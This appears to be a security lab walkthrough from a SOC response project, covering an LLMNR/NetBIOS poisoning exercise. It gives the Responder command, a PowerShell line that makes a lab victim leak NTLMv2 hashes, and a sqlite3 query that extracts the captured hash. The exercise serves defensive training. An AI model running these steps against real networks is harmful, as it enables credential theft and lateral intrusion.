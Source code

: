 #### NMAP 
The use of Nmap in this phase is critical: by identifying open ports and exposed services, attackers gain valuable insight into potential entry points. This reconnaissance step is why port scanning is considered the first phase of the Cyber Kill Chain.

### Phase 2 Harvest Credential using Responder

**Objective:** Initiates a credential harvesting attack by poisoning network protocols to capture NTLMv2 hashes from nearby endpoints.

**Steps:**
1. Open the terminal with the Kali Attacker from the last step. 
2. Identify the active network interface with ip a
3. Tip: Look for the interface assigned to 192.168.1.2 — typically eth0.
4. Start Responder:
```
sudo responder -I eth0
```

### Phase 3 Simulate Victim Behavior

**Objective:** Simulate the behavior of a regular domain user (victim01) interacting with network resources waiting for the victim to unknowingly trigger an LLMNR/NetBIOS request that leaks credentials to Responder.

**Steps:**
1. Open Remote Desktop connection on your host machine.
2. Enter the IP address of the victim VM (192.168.3.2).
3. Log in using the provided credentials.
4. When prompted, click Yes to connect.
5. Once inside the victim machine, open PowerShell.
6. Run the following command:
```
Start-Process "\\192.168.1.2\share"
```

This command forces Windows to resolve the network path via LLMNR/NetBIOS, triggering credential leakage to Responder.

#### Screenshots
Victim Machine (Windows PowerShell)
[Windows Powershell CLI](/SOC_Escalation_Automated_Response/img/Windows_Powershell.png)

Kali Attacker Output (Kali Linux)
[Responder CLI](/SOC_Escalation_Automated_Response/img/Expected_output.png)

#### Extract the Captured Hash

**Steps:**
1. In the host machine open the Kali Attacker VM
2. Run the following command:

```
sqlite3 /usr/share/responder/Responder.db "SELECT fullhash FROM responder WHERE user LIKE '%victim01%';" > ~/victim01_hash.txt
```
**Explanation**
- Responder stores captured NTLMv2 hashes in a lightweight SQLite database named Responder.db.
